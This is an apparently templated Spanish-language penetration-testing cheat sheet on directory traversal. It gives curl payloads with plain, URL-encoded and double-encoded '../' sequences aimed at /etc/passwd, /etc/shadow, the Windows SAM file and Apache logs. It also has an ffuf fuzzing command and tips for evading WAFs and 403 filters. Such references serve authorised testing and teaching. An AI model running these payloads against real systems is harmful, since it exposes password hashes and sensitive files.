 # CheatSheet: Directory Traversal

## Fecha: {FECHA}
## Host: {HOST}
## IP: {IP}

---

## Objetivo
Explorar y explotar vulnerabilidades de Directory Traversal para acceder 
a archivos y directorios sensibles fuera del directorio raíz permitido.

---
## Herramientas
1. Burp Suite

2. curl

3. Dirbuster
---
## Procedimiento y comandos
1. Paso 1: Identificar puntos de entrada: Examinar parámetros vulnerables en URLs o formularios:
	
	- **curl -X GET "http://{HOST}/vulnerable?file=../../../etc/passwd"**

2. Paso 2: Probar codificaciones comunes:
	
	- Codificación de URL (por ejemplo, %2e%2e%2f para ../):
	
	- **curl -X GET "http://{HOST}/vulnerable?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd"**
	
	- Doble codificación:
	
	- **curl -X GET "http://{HOST}/vulnerable?file=%252e%252e%252fetc%252fpasswd"**

3. Comprobar diferentes sistemas operativos:
	
	- Windows: **curl -X GET "http://{HOST}/vulnerable?file=..\\..\\..\\Windows\\System32\\config\\SAM"**
	
	- Linux: **curl -X GET "http://{HOST}/vulnerable?file=../../../../../etc/shadow"**

4. Automatización: Usar herramientas como Burp Suite con secuencias de ataque en Intruder o fuzzers:

	- ** ffuf -u http://{HOST}/vulnerable?file=FUZZ -w payloads.txt **
---
## Troubleshooting
1. Errores HTTP 403 (Forbidden):

	- Probar diferentes codificaciones para bypass de restricciones, como doble o triple codificación.

	- Asegurarse de que los encabezados HTTP enviados (User-Agent, Referer, etc.) no sean bloqueados por reglas de seguridad del servidor.

	- Verificar si el servidor aplica filtros basados en caracteres o patrones específicos.

2. Archivos inaccesibles por permisos:

	- Intentar acceder a rutas públicas como logs o configuraciones de aplicación:

	- **curl -X GET "http://{HOST}/vulnerable?file=../../../../../var/log/apache2/access.log"**

	- Buscar vulnerabilidades adicionales para escalar privilegios y leer archivos restringidos.

3. Detección de WAF (Web Application Firewall):

	- Usar herramientas como **WAFW00F** para identificar y analizar posibles restricciones.

	- **wafw00f http://{HOST}**

	- Cambiar la estructura de la solicitud o el User-Agent para evitar que sea bloqueada.

4. Sin respuestas úteiles en el contenido devuelto:

	- Comprobar si el servidor devuelve errores genéricos o vacíos. En tal caso, usar **Burp Suite** o herramientas similares para interceptar y analizar más a fondo las respuestas.

	- Analizar si las solicitudes deben incluir **tokens o cookies** específicas para ser procesadas correctamente.
---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

